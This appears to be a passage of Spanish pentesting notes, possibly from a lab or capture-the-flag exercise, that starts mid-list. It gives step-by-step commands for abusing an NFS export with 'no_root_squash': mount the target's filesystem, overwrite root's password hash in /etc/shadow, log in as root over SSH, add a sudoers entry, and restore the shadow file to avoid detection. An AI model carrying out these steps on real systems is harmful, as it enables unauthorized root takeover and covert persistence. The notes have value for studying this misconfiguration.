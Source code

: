 	3 - Dentro, buscamos ficheros

	find / -type f -name [nombre_fichero] 2> /dev/null

		2> /dev/null	-> no imprime los errores

	4 - Ver permisos de fichero

	ls -l [ruta_fichero]

	5 - Si permiso de lectura, ver contenido de fichero

	cat [ruta_fichero]

	6 - Cambiar permisos

		0. Como tiene NFS activo, comprobar que se pueda montar
			el arbol de directorios y ver los permisos que
			aporta al cliente

		cat /etc/exports
		
		Si tiene activa la opcion "no_root_squash", esta
			permitiendo a cualquier cliente en modo root
			acceder a los ficheros como root en el server

		a. En local, crear un directorio donde montaremos la
			proyeccion del sistema nfs de la maquina atacada

		mkdir [ruta_directorio]

		b. En local, montar el sistema nfs en el directorio

		sudo mount -t nfs [ip]:/ [ruta_directorio]

		t: tipo de sistema de ficheros

		c. Hacer una copia del archivo "shadow" por seguridad

		sudo cp [dir]/etc/shadow ./shadow_copy

		d. Crear contraseña cifrada

		openssl passwd -1 [SALT] [contraseña_nueva]

		1: MD5 de 22 caracteres

		Salida:
			$1$[SALT_cifrado]$[contraseña_cifrada]

		e. Cambiar la contraseña de root en archivo shadow original

		f. Entrar como root en la maquina
		
		ssh root@[ip] // [contraseña_nueva]

		g. Añadir usuario "user" a fichero "sudoers"

		sudo visudo -> user ALL:(ALL) ALL

		h. Salir y restaurar el archivo "shadow" original copiado
			por si el usuario quisiera acceder a root. Si falla
			la contraseña, nos podrían pillar antes
